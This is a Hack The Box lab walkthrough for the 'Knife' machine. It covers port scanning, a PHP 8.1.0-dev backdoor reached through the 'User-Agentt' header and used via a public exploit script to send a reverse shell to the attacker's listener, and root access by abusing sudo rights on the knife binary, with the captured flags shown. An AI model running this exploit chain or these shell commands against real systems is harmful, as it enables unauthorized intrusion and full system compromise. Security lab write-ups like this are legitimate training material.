


# HTB Walkthrough - Knife

**Machine Name**: Knife  
**Target IP**: 10.129.11.28

---

## 🧭 Enumeration

### 🔍 Nmap Scan

```bash
nmap -sV -sC -oA nmap/Knife 10.129.11.28
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

> ✅ **Open TCP Ports:** 2

---

## 🌐 Web Enumeration

### 🔎 Wappalyzer & Headers

- Web Server: **Apache/2.4.41 (Ubuntu)**
- Programming Language: **PHP 8.1.0-dev**
- Powered by: **Ubuntu**

### 🔥 Exploitable Header

According to [Juniper Threat Labs](https://www.juniper.net/us/en/threatlabs/ips-signatures/detail.HTTP:PHP:PHP-810-DEV-AGENTT-RCE.html), PHP 8.1.0-dev is vulnerable to RCE via the `User-Agentt` header.

> ✅ **RCE Header:** `User-Agentt`

---

## ⚔️ Exploitation

### 🧪 RCE via `User-Agentt` Header

GitHub PoC: [PHP 8.1.0-dev RCE Exploit](https://github.com/j4k0m/PHP-8.1.0-dev-RCE)

#### Payload Script
```bash
./exploit.sh 10.129.11.28 10.10.14.156 9999
```

#### Listener
```bash
nc -nlvp 9999
```

### 💻 Reverse Shell Access

```bash
id
uid=1000(james) gid=1000(james) groups=1000(james)
```

> ✅ **Web Server Running As:** james

---

## 🧍 User Flag

```bash
cat /home/james/user.txt
63ed48a287ee1f103e197e2e027cb4cf
```

> 🏁 **User Flag:** `63ed48a287ee1f103e197e2e027cb4cf`

---

## ⬆️ Privilege Escalation

### 🔍 Sudo Rights

```bash
sudo -l
```

```
User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

> ✅ **Sudo Binary:** `/usr/bin/knife`

### 🔓 Root Shell via Knife

Reference: [GTFOBins - knife](https://gtfobins.github.io/gtfobins/knife/#sudo)

```bash
sudo knife exec -E 'exec "/bin/sh"'
```

```bash
id
uid=0(root) gid=0(root) groups=0(root)
```

---

## 👑 Root Flag

```bash
cat /root/root.txt
1888d3c38b467903dfa81d9ace919f9e
```

> 🏁 **Root Flag:** `1888d3c38b467903dfa81d9ace919f9e`
